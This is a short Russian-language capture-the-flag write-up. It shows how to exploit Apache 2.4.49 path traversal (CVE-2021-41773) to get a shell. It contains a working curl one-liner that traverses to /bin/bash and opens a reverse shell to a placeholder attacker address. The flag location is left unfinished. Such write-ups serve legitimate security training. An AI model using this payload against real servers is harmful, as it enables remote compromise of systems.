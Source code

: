 # Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49_.

Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773:
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```
curl "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo;bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг в директории *дописать* и читаем его с помощью утилиты cat.

`
Flag: MSKCTF{TO_BE_REDACTED}
`

